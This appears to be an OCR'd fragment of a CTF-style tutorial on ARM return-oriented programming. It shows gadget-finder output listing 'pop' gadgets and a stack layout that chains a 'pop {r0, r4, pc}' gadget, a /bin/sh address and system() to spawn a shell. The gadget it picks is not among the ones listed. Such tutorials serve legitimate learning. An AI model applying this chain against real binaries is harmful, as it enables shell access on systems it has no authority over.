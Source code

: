 ```bash
0x000095b8 : pop {r4, r5, r6, pc}

0x000082e8 : pop {r4, r5, r6, r7, pc}

0x00023ed4 : pop {r4, r5, r7, pc}

0x00023dbc : pop {r4, r7, pc}

0x00014068 : pop {r7, pc}



Unique gadgets found: 13

```



We only need to control the first parameter, so we can choose `pop {r0, r4, pc}` this gadgets to construct the following stack structure.
```

+-------------+

|             |

|  padding    |

+-------------+

|  padding    | <- frame pointer

+-------------+ 

|gadgets_addr | <- return address

+-------------+

|binsh_addr   |

+-------------+

|junk_data    |

+-------------+

|system_addr  |

+-------------+

```

